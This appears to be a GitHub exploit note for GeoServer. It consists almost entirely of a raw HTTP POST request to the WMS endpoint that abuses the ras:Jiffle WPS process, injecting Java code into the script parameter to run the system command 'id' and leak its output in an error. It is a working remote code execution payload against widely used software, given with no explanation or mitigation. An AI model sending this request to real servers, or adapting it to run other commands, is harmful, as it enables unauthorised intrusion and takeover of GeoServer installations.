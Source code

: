 ```SQL
POST /geoserver/wms/ HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Content-Type: application/xml
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Accept: */*
Content-Length: 44

<?xml version="1.0" encoding="UTF-8"?>
<wps:Execute version="1.0.0" service="WPS" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns="http://www.opengis.net/wps/1.0.0" xmlns:wfs="http://www.opengis.net/wfs" xmlns:wps="http://www.opengis.net/wps/1.0.0" xmlns:ows="http://www.opengis.net/ows/1.1" xmlns:gml="http://www.opengis.net/gml" xmlns:ogc="http://www.opengis.net/ogc" xmlns:wcs="http://www.opengis.net/wcs/1.1.1" xmlns:xlink="http://www.w3.org/1999/xlink" xsi:schemaLocation="http://www.opengis.net/wps/1.0.0 http://schemas.opengis.net/wps/1.0.0/wpsAll.xsd">
<ows:Identifier>ras:Jiffle</ows:Identifier>
<wps:DataInputs>
    <wps:Input>
    <ows:Identifier>coverage</ows:Identifier>
    <wps:Data>
        <wps:ComplexData mimeType="application/arcgrid"><![CDATA[ncols 720 nrows 360 xllcorner -180 yllcorner -90 cellsize 0.5 NODATA_value -9999  316]]></wps:ComplexData>
    </wps:Data>
    </wps:Input>
    <wps:Input>
    <ows:Identifier>script</ows:Identifier>
    <wps:Data>
        <wps:LiteralData>dest = y() - (500); // */ public class Double {    public static double NaN = 0;  static { try {  java.io.BufferedReader reader = new java.io.BufferedReader(new java.io.InputStreamReader(java.lang.Runtime.getRuntime().exec("id").getInputStream())); String line = null; String allLines = " - "; while ((line = reader.readLine()) != null) { allLines += line; } throw new RuntimeException(allLines);} catch (java.io.IOException e) {} }} /**</wps:LiteralData>
    </wps:Data>
    </wps:Input>
    <wps:Input>
    <ows:Identifier>outputType</ows:Identifier>
    <wps:Data>
        <wps:LiteralData>DOUBLE</wps:LiteralData>
    </wps:Data>
    </wps:Input>
</wps:DataInputs>
<wps:ResponseForm>
    <wps:RawDataOutput mimeType="image/tiff">
    <ows:Identifier>result</ows:Identifier>
    </wps:RawDataOutput>
</wps:ResponseForm>
</wps:Execute>
```
![image](https://github.com/user-attachments/assets/9ff42cd7-fc28-48e4-886e-7b527c76d9ec)
